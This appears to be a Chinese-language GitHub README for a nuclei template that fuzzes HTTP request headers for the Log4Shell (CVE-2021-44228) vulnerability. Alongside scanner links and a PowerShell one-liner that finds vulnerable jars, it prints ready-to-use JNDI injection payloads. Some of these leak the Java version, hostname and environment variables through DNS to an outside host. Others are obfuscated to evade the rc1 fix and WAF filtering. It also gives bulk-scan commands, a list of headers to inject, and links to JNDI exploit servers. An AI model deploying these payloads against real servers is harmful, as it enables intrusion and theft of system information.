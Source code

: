
## 1. 更新

### 1.1 structs2版本
添加了structs2静态文件 If-Modified-Since 头利用方式。
参考：https://mp.weixin.qq.com/s/T-rcZnQxxUK1n2_lJNoUZg


### 1.2 structs2 利用变种
添加了structs2利用方式变种。
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### 1.3 vCenter 利用
添加了vCenter利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


### 1.4 solr 利用
添加了Apache solr利用
参考：https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis


## 2. 关于影响面
有一个新的站点发布了比此前相对更全内容.(包括各类设备与云设施等)
- [Finding applications that use Log4J](https://www.rumble.run/blog/finding-log4j/?fbclid=IwAR0XbJNZ7FjsgVFIk5rlmf002twAaW14SJfdBHFYswWbOzDxzj4YIFnJZPU#affected-products-and-services)

## 3. 关于其他扫描器
有一个新的扫描器挺火的，暂时没有时间验证
- [log4j-scan](https://github.com/fullhunt/log4j-scan)

portswigger 放出了官方的 burpsuite 被动扫描插件，官方的应该挺好用
- Log4Shell Scanner 可以在 plugin store 直接下载

## 4. 关于 log4j2 发现漏洞后的进一步利用

### 4.1 探测 jdk 版本等
```
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
```
![image-20211214113047711](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20211214113047711.png)

### 4.2 一次性探测完
```
${jndi:ldap://${sys:java.vendor}.@.${sys:java.version}.@.${hostName}.test.dnslog.cn/exp}
```
### 其他可探测的信息
![Image](https://pbs.twimg.com/media/FGT0Im-UcAIq7IA?format=png&name=small)
### 4.3 使用tomcat等可绕过高版本jdk限制的反序列化链
可以使用 
 - [veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)
 - [welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
 - [JNDIExploit](https://github.com/GreyDr34d/JNDIExploit)


## 5. 关于类似漏洞的挖掘 
### 5.1 挖掘其他可能存在 JndiLookup.class 的 jar 包
powershell 命令：
```powershell
gci 'C:\' -rec -force -include *.jar -ea 0 | foreach {select-string "JndiLookup.class" $_} | select -exp Path
```
powershell 脚本
[checkjndi.ps1](https://gist.github.com/wdormann/c609ae63a6ec8b58302b8cf377e0ef15)

python 脚本
[CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)

## 6. 其他组织的攻击活动
- [已有10个家族的恶意样本利用Log4j2漏洞传播](https://blog.netlab.360.com/yi-jing-you-xxxge-jia-zu-de-botnetli-yong-log4shelllou-dong-chuan-bo-wei-da-bu-ding-de-gan-jin-liao/)
# log4j1-fuzz-head-poc轻量级检测
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

为什么用这种，这种方法也是从蜜罐中获取到攻击组织最常用的方法，简单，有效

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version
* If-Modified-Since(structs2)

